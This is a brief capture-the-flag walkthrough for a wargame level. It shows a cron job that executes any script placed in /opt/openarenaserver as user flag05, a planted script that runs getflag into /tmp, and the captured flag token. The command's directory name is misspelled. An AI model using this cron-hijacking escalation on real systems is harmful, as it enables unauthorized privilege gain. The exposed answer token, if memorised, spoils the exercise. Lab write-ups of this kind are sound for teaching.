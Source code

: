 # Level05

When login to this level i got an mail that said, `You have new mail.`<br/>
```bash
cat /var/mail/level05 
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05

find / -group flag05 -exec ls -la {} \; 2>/dev/null
-rwxr-x---+ 1 flag05 flag05 94 Mar  5  2016 /usr/sbin/openarenaserver
```

```bash
#!/bin/sh

for i in /opt/openarenaserver/* ; do
        (ulimit -t 5; bash -x "$i")
        rm -f "$i"
done
```

It seems that this script run every two minutes, by flag05 user, it runs a script in dir /opt/openarenaserver/<br/>
So let's make out own script that will get us the flag<br/>

```bash
echo "getflag > /tmp/flag" > /opt/openareanserver/flag

watch -x cat /tmp/flag

Check flag.Here is your token : viuaaale9huek52boumoomioc
```
